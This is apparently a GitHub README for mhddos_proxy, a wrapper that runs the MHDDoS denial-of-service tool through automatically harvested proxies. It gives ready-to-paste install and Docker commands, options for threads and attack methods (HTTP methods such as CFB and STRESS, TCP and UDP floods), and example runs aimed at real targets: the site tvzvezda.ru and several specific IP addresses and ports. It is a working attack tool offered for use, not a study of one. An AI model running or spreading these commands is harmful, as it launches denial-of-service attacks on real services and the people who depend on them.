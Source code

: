 ## Intro

Wrapper script for running [MHDDoS](https://github.com/MHProDev/MHDDoS)

- **No VPN required** - automatically downloads and selects working proxies for given targets
- Support for **multiple targets** with automatic load-balancing
- Uses multiple attack methods and switches between them
- Simpler interface with named arguments

## Setup

### Python

```bash
git clone https://github.com/botsarefuture/mhddos_proxy.git && cd mhddos_proxy && git clone https://github.com/MHProDev/MHDDoS.git && python3 -m pip install -r MHDDoS/requirements.txt --b && bash launcher.sh
```
```

### Docker

Install and run Docker

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

```bash
docker pull portholeascend/mhddos_proxy:latest
```

## Running

### Docker

```bash
docker run -it --rm portholeascend/mhddos_proxy:latest COMMAND
```

### Python

```bash
python3 runner.py COMMAND
```

## Usage

```bash
usage: runner.py target [target ...]
                 [-t THREADS] 
                 [-p PERIOD]
                 [--proxy-timeout TIMEOUT]
                 [--rpc RPC] 
                 [--udp-threads UDP_THREADS]
                 [--debug]
                 [--http-methods METHOD [METHOD ...]]

positional arguments:
  targets                List of targets, separated by space

optional arguments:
  -h, --help             show this help message and exit
  -t, --threads 1000     Total number of threads (default is 100 * CPU Cores)
  -p, --period 300       How often to update the proxies (default is 300)
  --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                         Higher values give more proxies, but with lower speed/quality.
                         Parsing also takes more time (default is 2)

  --debug                Enable debug output from MHDDoS
  --rpc 50               How many requests to send on a single proxy connection (default is 50)
  --udp-threads 1        Threads to run per UDP target (default is 1)

  --http-methods GET     List of HTTP(s) attack methods to use.
                         (default is GET, STRESS, BOT, DOWNLOADER)
                         Refer to MHDDoS docs for available options
                         (https://github.com/MHProDev/MHDDoS)
```

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD

For UDP targets, attack method is UDP FLOOD.   

**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

```bash
python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

docker run -it --rm portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53
```

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

```bash
python3 runner.py -t 1000 https://tvzvezda.ru
```

View DEBUG info (traffic)

```bash
python3 runner.py https://tvzvezda.ru --debug
```

Change proxy update interval

```bash
python3 runner.py -p 600 https://tvzvezda.ru
```

Get more proxies (possibly lower quality)

```bash
python3 runner.py --proxy-timeout 5 https://tvzvezda.ru
```

Specific HTTP(S) attack method(s)

```bash
python3 runner.py https://tvzvezda.ru --http-methods CFB CFBUAM
```
